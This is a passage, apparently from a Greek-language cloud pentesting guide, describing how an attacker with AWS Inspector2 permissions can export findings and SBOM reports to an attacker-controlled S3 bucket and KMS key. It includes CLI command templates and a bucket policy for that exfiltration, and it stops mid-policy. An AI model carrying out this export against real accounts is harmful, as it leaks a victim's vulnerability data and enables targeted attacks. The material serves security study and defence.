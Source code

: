 {% hint style="success" %}
Από την οπτική γωνία ενός επιτιθέμενου, αυτή η υπηρεσία μπορεί να βοηθήσει τον επιτιθέμενο να βρει ευπάθειες και εκθέσεις δικτύου που θα μπορούσαν να τον βοηθήσουν να συμβιβάσει άλλες περιπτώσεις/δοχεία.

Ωστόσο, ένας επιτιθέμενος θα μπορούσε επίσης να ενδιαφέρεται να διαταράξει αυτή την υπηρεσία ώστε το θύμα να μην μπορεί να δει ευπάθειες (όλες ή συγκεκριμένες).
{% endhint %}

#### `inspector2:CreateFindingsReport`, `inspector2:CreateSBOMReport`

Ένας επιτιθέμενος θα μπορούσε να δημιουργήσει λεπτομερείς αναφορές ευπαθειών ή λογαριασμούς υλικού λογισμικού (SBOMs) και να τις εξάγει από το περιβάλλον AWS σας. Αυτές οι πληροφορίες θα μπορούσαν να εκμεταλλευτούν για να εντοπίσουν συγκεκριμένες αδυναμίες, παρωχημένο λογισμικό ή ανασφαλείς εξαρτήσεις, επιτρέποντας στοχευμένες επιθέσεις.
```bash
# Findings report
aws inspector2 create-findings-report --report-format <CSV | JSON> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--filter-criteria <value>]
# SBOM report
aws inspector2 create-sbom-report --report-format <CYCLONEDX_1_4 | SPDX_2_3> --s3-destination <bucketName=string,keyPrefix=string,kmsKeyArn=string> [--resource-filter-criteria <value>]
```
Το παρακάτω παράδειγμα δείχνει πώς να εξάγετε όλα τα ενεργά ευρήματα από το Amazon Inspector σε ένα Amazon S3 Bucket που ελέγχεται από τον επιτιθέμενο με ένα κλειδί Amazon KMS που ελέγχεται από τον επιτιθέμενο:

1. **Δημιουργήστε ένα Amazon S3 Bucket** και επισυνάψτε μια πολιτική σε αυτό ώστε να είναι προσβάσιμο από το θύμα Amazon Inspector:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "allow-inspector",
"Effect": "Allow",
"Principal": {
"Service": "inspector2.amazonaws.com"
},
"Action": [
"s3:PutObject",
"s3:PutObjectAcl",
"s3:AbortMultipartUpload"
],
"Resource": "arn:aws:s3:::inspector-findings/*",
"Condition": {
"StringEquals": {
"aws:SourceAccount": "<victim-account-id>"
},
"ArnLike": {
"aws:SourceArn": "arn:aws:inspector2:us-east-1:<victim-account-id>:report/*"
}
}
}
]
}
```
2. **Δημιουργήστε ένα κλειδί Amazon KMS** και επισυνάψτε μια πολιτική σε αυτό ώστε να είναι χρησιμοποιήσιμο από τον Amazon Inspector του θύματος:
```json
{
"Version": "2012-10-17",
"Id": "key-policy",
"Statement": [
{
```